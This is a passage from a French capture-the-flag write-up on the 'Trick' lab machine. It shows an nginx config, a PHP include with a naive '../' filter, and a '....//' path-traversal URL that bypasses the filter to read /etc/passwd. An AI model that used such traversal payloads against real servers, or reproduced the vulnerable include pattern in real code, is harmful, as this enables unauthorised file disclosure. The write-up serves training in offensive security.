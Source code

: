 ```bash
        }
}

server {
        listen 80;
        listen [::]:80;

        server_name preprod-payroll.trick.htb;

        root /var/www/payroll;
        index index.php;

        location / {
                try_files $uri $uri/ =404;
        }

        location ~ \.php$ {
                include snippets/fastcgi-php.conf;
                fastcgi_pass unix:/run/php/php7.3-fpm.sock;
        }
}
```

On tombe alors sur un nouveau site en construction. Il semble qu’il y a encore une LFI mais on remarque que cette fois-ci il y a l’extension:

```bash
http://preprod-marketing.trick.htb/index.php?page=services.html
```

Pas réussi à rech un autre directory (payroll par ex) donc on va directement télécharger le fichier du code de la page avec sqlmap pour comprendre s’il y a vraiment une inclusion. Voici le code de la page:

```php
<?php
$file = $_GET['page'];

if(!isset($file) || ($file=="index.php")) {
   include("/var/www/market/home.html");
}
else{
        include("/var/www/market/".str_replace("../","",$file));
}
?>
```

On voit que le ../ est remplacé par le vide alors on peut utiliser un autre symbole pour revenir en arriève: //

```bash
http://preprod-marketing.trick.htb/index.php?page=....//....//....//....//....//etc/passwd
```

On note que l’on ne peut toujours pas accéder aux fichiers cachés de /var/www/payroll.
